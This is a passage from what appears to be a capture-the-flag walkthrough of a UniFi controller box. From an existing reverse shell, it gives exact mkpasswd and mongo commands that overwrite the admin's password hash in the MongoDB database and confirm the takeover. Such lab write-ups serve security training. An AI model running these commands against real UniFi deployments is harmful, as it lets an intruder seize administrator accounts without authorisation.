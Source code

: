 Admin credentials are there but the `password` is presented as `hash`.

What we’re going to do now is replace the current `password hash` with `our own` hash.

To create new password hash, type in new tab:

```
mkpasswd -m sha-512 {any password you want}
```

![search](./Screenshots/unifiedsearch4.png)

And now, in our `reverse shell` tab type:

```
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"{SHA-512 hash of your password}"}})'
```

![search](./Screenshots/unifiedsearch5.png)

We can pase this:

```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

to see if password has been updated.

![search](./Screenshots/unifiedsearch6.png)

It has.

### Admin panel

